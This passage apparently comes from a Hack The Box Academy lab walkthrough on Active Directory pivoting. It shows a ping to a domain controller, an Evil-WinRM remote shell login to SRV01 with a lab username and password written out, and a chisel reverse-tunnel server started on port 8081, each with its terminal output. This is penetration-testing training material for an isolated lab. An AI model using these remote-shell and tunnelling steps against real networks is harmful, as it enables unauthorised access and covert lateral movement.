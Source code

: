 ```powershelll-session
PS C:\Users\Leonvqz> ping DC01

Pinging dc01.inlanefreight.local [172.20.0.10] with 32 bytes of data:
Reply from 172.20.0.10: bytes=32 time<1ms TTL=128
Reply from 172.20.0.10: bytes=32 time<1ms TTL=128
Reply from 172.20.0.10: bytes=32 time<1ms TTL=128
Reply from 172.20.0.10: bytes=32 time<1ms TTL=128

Ping statistics for 172.20.0.10:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

Students will return to their workstations and open a new terminal tab, and they will establish a second `Evil-WinRM` on the initial target (`SRV01`):

Code: shell

```shell
evil-winrm -i STMIP -u Frewdy -p Kiosko093
```

```shell-session
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-fwzmhuxy3m]─[~]
└──╼ [★]$ evil-winrm -i 10.129.145.58 -u Frewdy -p Kiosko093
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Frewdy\Documents>
```

Subsequently, students will start the previously uploaded `chisel` executable in `server` mode:

Code: shell

```shell
.\chisel.exe server --reverse --port 8081
```

```shell-session
*Evil-WinRM* PS C:\Users\Frewdy\Documents> .\chisel.exe server --reverse --port 8081

chisel.exe : 2024/07/12 01:22:23 server: Reverse tunnelling enabled
    + CategoryInfo          : NotSpecified: (2024/07/12 01:2...nelling enabled:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/07/12 01:22:23 server: Fingerprint tZEnxjQoHuGTZMGyZaHAsLPInIbMl9DuGUEX3OiI8lI=2024/07/12 01:22:23 server: Listening on http://0.0.0.0:80812024/07/12 01:22:46
```
